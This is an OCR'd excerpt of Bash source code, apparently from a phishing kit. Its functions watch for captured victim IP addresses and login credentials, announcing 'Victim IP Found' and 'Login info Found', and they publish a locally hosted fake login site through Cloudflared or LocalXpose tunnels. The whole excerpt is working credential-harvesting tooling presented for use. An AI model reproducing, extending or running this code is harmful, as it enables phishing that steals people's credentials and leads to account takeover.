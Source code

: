 ## Print data
capture_data() {
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit..."
	while true; do
		if [[ -e ".server/www/ip.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Victim IP Found !"
			capture_ip
			rm -rf .server/www/ip.txt
		fi
		sleep 0.75
		if [[ -e ".server/www/usernames.txt" ]]; then
			echo -e "\n\n${RED}[${WHITE}-${RED}]${GREEN} Login info Found !!"
			capture_creds
			rm -rf .server/www/usernames.txt
		fi
		sleep 0.75
	done
}

## Start Cloudflared
start_cloudflared() { 
	rm .cld.log > /dev/null 2>&1 &
	cusport
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Initializing... ${GREEN}( ${CYAN}http://$HOST:$PORT ${GREEN})"
	{ sleep 1; setup_site; }
	echo -ne "\n\n${RED}[${WHITE}-${RED}]${GREEN} Launching Cloudflared..."

	if [[ `command -v termux-chroot` ]]; then
		sleep 2 && termux-chroot ./.server/cloudflared tunnel -url "$HOST":"$PORT" --logfile .server/.cld.log > /dev/null 2>&1 &
	else
		sleep 2 && ./.server/cloudflared tunnel -url "$HOST":"$PORT" --logfile .server/.cld.log > /dev/null 2>&1 &
	fi

	sleep 8
	cldflr_url=$(grep -o 'https://[-0-9a-z]*\.trycloudflare.com' ".server/.cld.log")
	custom_url "$cldflr_url"
	capture_data
}

localxpose_auth() {
	./.server/loclx -help > /dev/null 2>&1 &
	sleep 1
	[ -d ".localxpose" ] && auth_f=".localxpose/.access" || auth_f="$HOME/.localxpose/.access" 

	[ "$(./.server/loclx account status | grep Error)" ] && {
		echo -e "\n\n${RED}[${WHITE}!${RED}]${GREEN} Create an account on ${ORANGE}localxpose.io${GREEN} & copy the token\n"
		sleep 3
		read -p "${RED}[${WHITE}-${RED}]${ORANGE} Input Loclx Token :${ORANGE} " loclx_token
		[[ $loclx_token == "" ]] && {
			echo -e "\n${RED}[${WHITE}!${RED}]${RED} You have to input Localxpose Token." ; sleep 2 ; tunnel_menu
		} || {
			echo -n "$loclx_token" > $auth_f 2> /dev/null
		}
	}
}
